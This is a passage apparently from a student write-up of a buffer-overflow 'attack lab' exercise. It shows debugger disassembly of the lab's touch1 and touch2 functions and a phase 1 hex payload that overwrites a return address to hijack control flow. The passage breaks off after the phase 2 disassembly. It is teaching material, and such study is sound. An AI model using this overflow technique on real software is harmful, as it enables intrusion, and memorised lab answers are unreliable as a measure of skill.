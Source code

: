 previous return address would be modified and jump to `touch1`.(Because `ret` would pop `rsp` to `rip` ).

We can use pwndbg check address of `touch1`:`disassemble touch1`:

```assembly
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    rsp,0x8
   0x00000000004017c4 <+4>:	mov    DWORD PTR [rip+0x203d0e],0x1        # 0x6054dc <vlevel>
   0x00000000004017ce <+14>:	mov    edi,0x4031e5
   0x00000000004017d3 <+19>:	call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    edi,0x1
   0x00000000004017dd <+29>:	call   0x401dad <validate>
   0x00000000004017e2 <+34>:	mov    edi,0x0
   0x00000000004017e7 <+39>:	call   0x400e40 <exit@plt>

```

So, solution to phase 1 might be as below:

```c
00000000: 6161 6161 6161 6161 6161 6161 6161 6161 
00000010: 6161 6161 6161 6161 6161 6161 6161 6161 
00000020: 6161 6161 6161 6161 c017 4000 0000 0000 
00000030: 0a 
```

## Phase 2

In phase 2, we need to call function `touch2` with 1 argument, and this argument must equal to value of cookie. First, use`disassemble touch1` find address of `touch2`:

```assembly
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	sub    rsp,0x8
   0x00000000004017f0 <+4>:	mov    edx,edi
   0x00000000004017f2 <+6>:	mov    DWORD PTR [rip+0x203ce0],0x2        # 0x6054dc <vlevel>
   0x00000000004017fc <+16>:	cmp    edi,DWORD PTR [rip+0x203ce2]        # 0x6054e4 <cookie>
   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:	mov    esi,0x403208
   0x0000000000401809 <+29>:	mov    edi,0x1
   0x000000000040180e <+34>:	mov    eax,0x0
   0x0000000000401813 <+39>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:	mov    edi,0x2
   0x000000000040181d <+49>:	call   0x401dad <validate>
   0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:	mov    esi,0x403230
   0x0000000000401829 <+61>:	mov    edi,0x1
   0x000000000040182e <+66>:	mov    eax,0x0
   0x0000000000401833 <+71>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:	mov    edi,0x2
   0x000000000040183d <+81>:	call   0x401e6f <fail>
   0x0000000000401842 <+86>:	mov    edi,0x0
   0x0000000000401847 <+91>:	call   0x400e40 <exit@plt>

```
